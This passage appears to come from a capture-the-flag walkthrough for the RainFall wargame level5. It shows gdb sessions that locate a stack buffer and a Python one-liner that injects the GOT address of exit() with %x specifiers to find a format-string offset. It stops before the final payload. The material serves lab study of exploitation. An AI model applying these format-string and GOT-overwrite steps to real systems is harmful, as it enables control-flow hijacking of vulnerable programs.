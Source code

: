 Set a breakpoint at the `printf()` call to examine the stack:

```gdb
(gdb) break *0x080484f3
(gdb) run
```

Input:

```
AAAA
```

---

### Step 3: Inspect Stack and Buffer

Check the base pointer and stack memory:

```gdb
(gdb) info registers
eax            0xbffff520       -1073744608
esp            0xbffff510       0xbffff510
ebp            0xbffff728       0xbffff728
(gdb) x/40x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
```

Look for the value `0x41414141` (our "AAAA") in memory. Then verify the buffer address:

```gdb
(gdb) print $ebp - 0x208
$1 = 0xbffff520
```

The buffer location should align with what we see on the stack:

```gdb
(gdb) x/4x 0xbffff520
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
```

This confirms that our input buffer is located at `$ebp - 0x208`, and that user input is passed to `printf()` directly from there.

---

### Step 4: Inject GOT Address into Buffer and Determine Offset

We want to inject the GOT address of `exit()` into the input and identify where it lands on the stack.

```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + " %x" * 10' | ./level5
8 200 b7fd1ac0 b7ff37d0 8049838 20782520 25207825 78252078 20782520 25207825 78252078
```
